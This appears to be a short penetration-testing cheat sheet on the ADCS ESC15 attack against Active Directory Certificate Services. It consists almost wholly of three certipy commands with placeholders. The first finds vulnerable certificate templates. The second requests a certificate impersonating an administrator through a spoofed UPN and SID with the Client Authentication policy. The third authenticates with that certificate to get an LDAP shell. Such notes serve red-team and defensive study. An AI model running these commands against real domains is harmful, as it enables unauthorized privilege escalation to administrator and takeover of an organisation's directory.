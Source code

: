 # ADCS ESC15

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Request certificate
```
certipy req -u '<username>' -p '<password>' -dc-ip '<DC_IP>' -target '<CA_FQDN>' -ca '<CA_HOST>' -template '<TEMPLATE>' -upn '<ADMIN_USER>@<domain>' -sid '<ADMIN_SID>' -application-policies 'Client Authentication'
```

## 3. Authenticate
```
certipy auth -pfx '<ADMIN_USER>.pfx' -dc-ip '<dc-ip>' -ldap-shell
```
